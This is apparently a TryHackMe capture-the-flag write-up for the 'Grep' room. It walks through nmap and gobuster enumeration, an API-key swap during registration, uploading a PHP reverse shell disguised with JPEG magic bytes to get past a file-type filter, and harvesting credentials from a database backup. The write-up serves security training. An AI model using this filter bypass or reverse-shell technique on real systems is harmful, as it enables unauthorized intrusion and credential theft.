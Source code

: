 ```yaml
---
title: "Grep"
date: 2025-02-20
image: /assets/img/tryhackme/Grep/Grep_image.jpg
description: Writeup of the TryHackMe-CTF Grep
categories: [Tryhackme, Easy]
tags: [linux, web]
---
```


## Challenge Description
<center>
<table>
  <tr>
    <td>Platform</td>
    <td>TryHackMe</td>
  </tr>
  <tr>
    <td>Name</td>
    <td>Grep</td>
  </tr>
  <tr>
    <td>Description</td>
    <td>A challenge that tests your reconnaissance and OSINT skills.</td>
  </tr>
  <tr>
    <td>Difficulty</td>
    <td>Easy</td>
  </tr>
  <tr>
    <td>OS</td>
    <td>Linux</td>
  </tr>
  <tr>
    <td>Link</td>
    <td><a href="https://tryhackme.com/room/greprtp">https://tryhackme.com/room/greprtp</a></td>
  </tr>
</table>
</center>

This writeup is a possible solution of the CTF-challenge Grep.  

## Enumeration
I started the enumeration using `nmap`:
```bash
$ nmap -p- 10.10.28.42            
  Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-20 05:01 EST
  Nmap scan report for 10.10.28.42
  Host is up (0.042s latency).
  Not shown: 65531 closed tcp ports (conn-refused)
  PORT      STATE SERVICE
  22/tcp    open  ssh
  80/tcp    open  http
  443/tcp   open  https
  51337/tcp open  unknown

  Nmap done: 1 IP address (1 host up) scanned in 14.13 seconds
```
and enumerated the found services in more depth using nmap's `-A` flag:
```bash
$ nmap -A -p 22,80,443,51337 10.10.28.42
  Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-20 05:04 EST
  Nmap scan report for 10.10.28.42
  Host is up (0.042s latency).

  PORT      STATE SERVICE  VERSION
  22/tcp    open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
  | ssh-hostkey: 
  |   3072 08:d9:c8:27:bc:25:ac:20:18:38:da:b7:bb:dd:12:17 (RSA)
  |   256 e9:9c:bd:70:39:8e:86:d0:30:aa:83:49:be:5b:b7:3c (ECDSA)
  |_  256 14:ec:b2:de:68:df:bb:89:75:ba:48:cf:b2:2c:b2:2c (ED25519)
  80/tcp    open  http     Apache httpd 2.4.41 ((Ubuntu))
  |_http-title: Apache2 Ubuntu Default Page: It works
  |_http-server-header: Apache/2.4.41 (Ubuntu)
  443/tcp   open  ssl/http Apache httpd 2.4.41
  |_http-server-header: Apache/2.4.41 (Ubuntu)
  | tls-alpn: 
  |_  http/1.1
  | ssl-cert: Subject: commonName=grep.thm/organizationName=SearchME/stateOrProvinceName=Some-State/countryName=US
  | Not valid before: 2023-06-14T13:03:09
  |_Not valid after:  2024-06-13T13:03:09
  |_ssl-date: TLS randomness does not represent time
  |_http-title: 403 Forbidden
  51337/tcp open  http     Apache httpd 2.4.41
  |_http-title: 400 Bad Request
  |_http-server-header: Apache/2.4.41 (Ubuntu)
  Service Info: Host: ip-10-10-28-42.eu-west-1.compute.internal; OS: Linux; CPE: cpe:/o:linux:linux_kernel

  Service detection performed. Please report any incorrect results at https://nmap.org/submit/
  Nmap done: 1 IP address (1 host up) scanned in 26.93 seconds
```
From here I proceeded the analysis port by port.

## Port 443 Analysis

I started by checking the certificate and found a domain name `grep.thm`:

![Certifcate domain](/assets/img/tryhackme/Grep/thm_grep_1.jpg)

After adding it into my `hosts` file I was able to access the webpage. The website had two options `Register` and `Login`, so I went for `Register`. After I inserted something random I got an error message:

![Original API key](/assets/img/tryhackme/Grep/thm_grep_2.jpg)

Since projects are mostly hosted on github I searched for the `SearchME` and found a repository that appeared to be related to the CTF. I examined `register.php` for modifications, where the valid API key was likely stored. After a while I found the valid key:

![Registration Process](/assets/img/tryhackme/Grep/thm_grep_3.jpg)

By intercepting the registration process, I was able to modify the API key, successfully register, and retrieve the flag. I continued with a directory enumeration to gain more insights into the application:

```bash
$ gobuster dir --no-tls-validation --url https://grep.thm/public/html/ --wordlist /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x html,php,txt
  ===============================================================
  Gobuster v3.6
  by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
  ===============================================================
  [+] Url:                     https://grep.thm/public/html/
  [+] Method:                  GET
  [+] Threads:                 10
  [+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
  [+] Negative Status codes:   404
  [+] User Agent:              gobuster/3.6
  [+] Extensions:              html,php,txt
  [+] Timeout:                 10s
  ===============================================================
  Starting gobuster in directory enumeration mode
  ===============================================================
  /.html                (Status: 403) [Size: 274]
  /.php                 (Status: 403) [Size: 274]
  /index.php            (Status: 200) [Size: 1471]
  /login.php            (Status: 200) [Size: 1981]
  /register.php         (Status: 200) [Size: 2346]
  /admin.php            (Status: 403) [Size: 0]
  /upload.php           (Status: 403) [Size: 0]
  /logout.php           (Status: 200) [Size: 154]
  /dashboard.php        (Status: 403) [Size: 0]
```

The `/upload.php` endpoint seemed interesting, but when I tried to upload a PHP reverse shell I, encountered the following error message:

```json
{"error":"Invalid file type. Only JPG, JPEG, PNG, and BMP files are allowed."}
```

To bypass the filter I changed the magic numbers of the php reverse shell using <a href="https://hexed.it/">hexed.it</a> to look like a JPG file:

```bash
$ file shell.php
shell.php: JPEG image data
$ xxd shell.php | head
00000000: ffd8 ffe0 0010 4a46 3c3f 7068 700a 2f2f  ......JF<?php.//
00000010: 2070 6870 2d72 6576 6572 7365 2d73 6865   php-reverse-she
00000020: 6c6c 202d 2041 2052 6576 6572 7365 2053  ll - A Reverse S
```

After uploading the file again the response looks good: 

```json
{"message":"File uploaded successfully."}
```

Through manual exploration, I located the upload directory and the uploaded PHP file at:

```html
https://grep.thm/api/uploads/
```

I started the reverse shell and received the connection. Since a flag wasn't required for this CTF I proceeded in the website directory. My focus was on database credentials or similar information, as I needed to find the admin's email and password. In the website directory I found a backup directory with a sql script:

```bash
www-data@ip-10-10-8-62:/var/www/backup$ ls
	users.sql
```

In the script, I found an interesting section:

```sql
[...]
INSERT INTO `users` (`id`, `username`, `password`, `email`, `name`, `role`) VALUES
(1, 'test', '$2y$10$dE6VAdZJCN4repNAFdsO2ePDr3StRdOhUJ1O/41XVQg91qBEBQU3G', 'test@grep.thm', 'Test User', 'user'),
(2, 'admin', '[removed]', '[removed]', 'Admin User', 'admin');
[...]
```

I saved the admin password hash to a file and ran Hashcat to crack it. After some time, I aborted the process and moved on. I checked the last port which I didn't had a look on. In the certificate was another URL called: `leakchecker.grep.thm`. After adding the URL to the hosts file, I was able to access the site. The application asked for an email adress. I entered the previously found email and retrieved the password:

![Leakchecker](/assets/img/tryhackme/Grep/thm_grep_4.jpg)

solved! :)
